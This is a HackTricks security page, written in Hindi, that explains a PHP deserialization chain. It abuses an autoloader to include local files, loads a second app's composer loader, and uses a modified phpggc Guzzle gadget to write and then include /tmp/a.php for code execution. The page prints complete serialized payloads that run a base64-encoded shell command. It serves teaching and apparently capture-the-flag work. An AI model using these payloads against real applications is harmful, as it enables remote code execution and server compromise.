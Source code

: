 # PHP - Deserialization + Autoload Classes

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

पहले, आपको [**Autoloading Classes**](https://www.php.net/manual/en/language.oop5.autoload.php) की जांच करनी चाहिए।

## PHP deserialization + spl\_autoload\_register + LFI/Gadget

हम एक ऐसी स्थिति में हैं जहाँ हमें **एक वेब ऐप में PHP deserialization** मिली है जिसमें **कोई** लाइब्रेरी **`phpggc`** के अंदर गैजेट के लिए कमजोर नहीं है। हालाँकि, उसी कंटेनर में एक **अलग कंपोज़र वेब ऐप था जिसमें कमजोर लाइब्रेरी थी**। इसलिए, लक्ष्य था **दूसरे वेब ऐप के कंपोज़र लोडर को लोड करना** और इसका दुरुपयोग करना **एक गैजेट लोड करने के लिए जो उस लाइब्रेरी का शोषण करेगा** जो deserialization के लिए कमजोर वेब ऐप से है।

चरण:

* आपने **deserialization** पाया है और वर्तमान ऐप कोड में **कोई गैजेट नहीं है**
* आप **`.php` एक्सटेंशन** के साथ किसी भी स्थानीय फ़ाइल को **लोड करने के लिए** निम्नलिखित की तरह **`spl_autoload_register`** फ़ंक्शन का दुरुपयोग कर सकते हैं
* इसके लिए आप एक deserialization का उपयोग करते हैं जहाँ कक्षा का नाम **`$name`** के अंदर होगा। आप **serialized object** में कक्षा के नाम में "/" या "." का उपयोग **नहीं** कर सकते, लेकिन **कोड** **underscores** ("\_") को **slashes** ("/") के लिए **बदल रहा है**। इसलिए एक कक्षा का नाम जैसे `tmp_passwd` `/tmp/passwd.php` में परिवर्तित हो जाएगा और कोड इसे लोड करने की कोशिश करेगा।\
एक **गैजेट उदाहरण** होगा: **`O:10:"tmp_passwd":0:{}`**
```php
spl_autoload_register(function ($name) {

if (preg_match('/Controller$/', $name)) {
$name = "controllers/${name}";
} elseif (preg_match('/Model$/', $name)) {
$name = "models/${name}";
} elseif (preg_match('/_/', $name)) {
$name = preg_replace('/_/', '/', $name);
}

$filename = "/${name}.php";

if (file_exists($filename)) {
require $filename;
}
elseif (file_exists(__DIR__ . $filename)) {
require __DIR__ . $filename;
}
});
```
{% hint style="success" %}
यदि आपके पास **फाइल अपलोड** है और आप **`.php` एक्सटेंशन** वाली फाइल अपलोड कर सकते हैं, तो आप इस कार्यक्षमता का **सीधे दुरुपयोग** कर सकते हैं और पहले से ही RCE प्राप्त कर सकते हैं।
{% endhint %}

मेरे मामले में, मेरे पास ऐसा कुछ नहीं था, लेकिन **एक ही कंटेनर** के अंदर एक और कंपोजर वेब पेज था जिसमें एक **लाइब्रेरी थी जो `phpggc` गैजेट के लिए संवेदनशील थी**।

* इस अन्य लाइब्रेरी को लोड करने के लिए, सबसे पहले आपको **उस अन्य वेब ऐप का कंपोजर लोडर लोड करना होगा** (क्योंकि वर्तमान एप्लिकेशन का लोडर दूसरे के लाइब्रेरी तक पहुंच नहीं पाएगा।) **एप्लिकेशन का पथ जानकर**, आप इसे बहुत आसानी से प्राप्त कर सकते हैं: **`O:28:"www_frontend_vendor_autoload":0:{}`** (मेरे मामले में, कंपोजर लोडर `/www/frontend/vendor/autoload.php` में था)
* अब, आप **अन्य ऐप के कंपोजर लोडर को लोड** कर सकते हैं, तो अब **`phpgcc`** **पेलोड** बनाने का समय है। मेरे मामले में, मैंने **`Guzzle/FW1`** का उपयोग किया, जिसने मुझे **फाइल सिस्टम के अंदर कोई भी फाइल लिखने** की अनुमति दी।
* नोट: **जनरेट किया गया गैजेट काम नहीं कर रहा था**, इसके काम करने के लिए मैंने उस पेलोड **`chain.php`** को phpggc में **संशोधित** किया और **क्लास के सभी गुणों** को **प्राइवेट से पब्लिक** में सेट किया। यदि नहीं, तो स्ट्रिंग को डीसिरियलाइज़ करने के बाद, बनाए गए ऑब्जेक्ट्स के गुणों में कोई मान नहीं था।
* अब हमारे पास **अन्य ऐप के कंपोजर लोडर को लोड करने का तरीका है** और एक **phpggc पेलोड है जो काम करता है**, लेकिन हमें **यह SAME REQUEST में करना होगा ताकि लोडर तब लोड हो जब गैजेट का उपयोग किया जाए**। इसके लिए, मैंने दोनों ऑब्जेक्ट्स के साथ एक सीरियलाइज्ड एरे भेजा जैसे:
* आप देख सकते हैं **पहले लोडर लोड हो रहा है और फिर पेलोड**

{% code overflow="wrap" %}
```php
a:2:{s:5:"Extra";O:28:"www_frontend_vendor_autoload":0:{}s:6:"Extra2";O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:7:"cookies";a:1:{i:0;O:27:"GuzzleHttp\Cookie\SetCookie":1:{s:4:"data";a:3:{s:7:"Expires";i:1;s:7:"Discard";b:0;s:5:"Value";s:56:"<?php system('echo L3JlYWRmbGFn | base64 -d | bash'); ?>";}}}s:10:"strictMode";N;s:8:"filename";s:10:"/tmp/a.php";s:19:"storeSessionCookies";b:1;}}
```
{% endcode %}

* अब, हम **एक फ़ाइल बना और लिख सकते हैं**, हालाँकि, उपयोगकर्ता **वेब सर्वर के अंदर किसी भी फ़ोल्डर में नहीं लिख सका**। तो, जैसा कि आप पेलोड में देख सकते हैं, PHP **`system`** को कुछ **base64** के साथ कॉल कर रहा है जो **`/tmp/a.php`** में बनाया गया है। फिर, हम **पहले प्रकार के पेलोड** का पुन: उपयोग कर सकते हैं जिसे हमने LFI के रूप में अन्य वेब ऐप के कंपोज़र लोडर को लोड करने के लिए **जनित `/tmp/a.php`** फ़ाइल लोड करने के लिए उपयोग किया था। बस इसे डेसिरियलाइजेशन गैजेट में जोड़ें:&#x20;

{% code overflow="wrap" %}
```php
a:3:{s:5:"Extra";O:28:"www_frontend_vendor_autoload":0:{}s:6:"Extra2";O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:7:"cookies";a:1:{i:0;O:27:"GuzzleHttp\Cookie\SetCookie":1:{s:4:"data";a:3:{s:7:"Expires";i:1;s:7:"Discard";b:0;s:5:"Value";s:56:"<?php system('echo L3JlYWRmbGFn | base64 -d | bash'); ?>";}}}s:10:"strictMode";N;s:8:"filename";s:10:"/tmp/a.php";s:19:"storeSessionCookies";b:1;}s:6:"Extra3";O:5:"tmp_a":0:{}}
```
{% endcode %}

**पेलोड का सारांश**

* **एक ही कंटेनर में एक अलग वेब ऐप का कंपोजर ऑटोलोड लोड करें**
* **एक phpggc गैजेट लोड करें** ताकि दूसरे वेब ऐप की एक लाइब्रेरी का दुरुपयोग किया जा सके (प्रारंभिक वेब ऐप जो डेसिरियलाइजेशन के लिए संवेदनशील था, उसकी लाइब्रेरी में कोई गैजेट नहीं था)
* गैजेट **/tmp/a.php** में एक PHP पेलोड के साथ एक फ़ाइल बनाएगा जिसमें दुर्भावनापूर्ण कमांड होंगे (वेब ऐप उपयोगकर्ता किसी भी वेब ऐप के किसी भी फ़ोल्डर में लिख नहीं सकता)
* हमारे पेलोड का अंतिम भाग **जनित PHP फ़ाइल को लोड करेगा** जो कमांड निष्पादित करेगा

मुझे **इस डेसिरियलाइजेशन को दो बार कॉल करने की आवश्यकता थी**। मेरे परीक्षण में, पहली बार `/tmp/a.php` फ़ाइल बनाई गई लेकिन लोड नहीं हुई, और दूसरी बार इसे सही तरीके से लोड किया गया।

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
